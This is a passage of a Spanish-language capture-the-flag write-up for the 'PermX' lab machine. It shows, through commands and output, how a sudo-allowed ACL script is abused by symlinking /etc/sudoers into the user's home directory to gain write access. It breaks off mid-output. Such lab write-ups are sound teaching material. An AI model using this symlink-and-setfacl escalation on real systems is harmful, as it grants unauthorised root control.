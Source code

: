 La solución encontrada para esta parte de la máquina consiste en, primero, buscar alguna ejecución como root desde el usuario mtz:

    mtz@permx:~$ sudo -l
    Matching Defaults entries for mtz on permx:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    
    User mtz may run the following commands on permx:
        (ALL : ALL) NOPASSWD: /opt/acl.sh
    

El contenido de este archivo acl.sh es que mediante parámetros correctos podemos cambiar los permisos de un archivo...

    mtz@permx:~$ cat /opt/acl.sh 
    #!/bin/bash
    
    if [ "$#" -ne 3 ]; then
        /usr/bin/echo "Usage: $0 user perm file"
        exit 1
    fi
    
    user="$1"
    perm="$2"
    target="$3"
    
    if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
        /usr/bin/echo "Access denied."
        exit 1
    fi
    
    # Check if the path is a file
    if [ ! -f "$target" ]; then
        /usr/bin/echo "Target must be a file."
        exit 1
    fi
    
    /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
    

De primeras pruebo a ver si en el directorio de root puedo leer el archivo con la flag de root, mal por mi parte por que no tengo permisos en el directorio root 😂:

    mtz@permx:~$ sudo /opt/acl.sh mtz rw /root/root.txt
    Access denied.
    

Asi que mejor modificar el archivo que me limita el acceso como sudo, en /etc/sudoers (ahora es obvio pero no me di cuenta... no tengo acceso 😂):

    mtz@permx:~$ sudo /opt/acl.sh mtz rw /etc/sudoers
    Access denied.
    

Pruebo a creear un enlace simbólico:

    mtz@permx:~$ ln -s /etc/sudoers ./enlace
    mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/enlace
    mtz@permx:~$ cat enlace
    #
    # This file MUST be edited with the 'visudo' command as root.
    #
    # Please consider adding local content in /etc/sudoers.d/ instead of